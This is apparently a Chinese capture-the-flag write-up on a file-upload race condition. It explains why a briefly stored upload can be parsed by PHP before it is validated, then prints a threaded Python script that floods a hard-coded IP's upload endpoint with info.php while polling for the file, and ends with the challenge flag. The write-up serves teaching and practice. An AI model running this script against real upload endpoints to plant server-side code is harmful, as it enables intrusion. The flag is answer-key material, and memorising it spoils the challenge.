 # wzsc_文件上传

## 条件竞争漏洞

> 条件竞争漏洞为特别漏洞,如果文件上传后有短暂的时间来验证文件是否合法.那么在这个短暂的时间内对传入的文件进行了临时保存,可能是一秒,也可能是0.几秒.如果解析的速度够快,在这短暂时间内php是可以解析的,从而上传了木马文件.

## 思路分析

> 打开就是个文件上传功能点,这道题考察的就是文件上传了.各种绕过都试过了,不行.最后只能是条件竞争漏洞了.

## payload

```
import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = 'http://61.147.171.105:51065/upload/info.php'
        self.upload_url = 'http://61.147.171.105:51065/upload.php'

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print('[*] create file info.php success.')
            os._exit(0)

    def _upload(self):
        print('upload file...')
        file = {
            'file': open('info.php', 'r')
        }
        requests.post(self.upload_url, files = file)

    def run(self):
        while True:
            for i in range(5):
                self._get()

            for i in range(10):
                self._upload()
                self._get()

if __name__ == '__main__':
    threads = 50    

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```

## flag

> cyberpeace{e7fbd79925c2b1677eb9ccc153f6293e}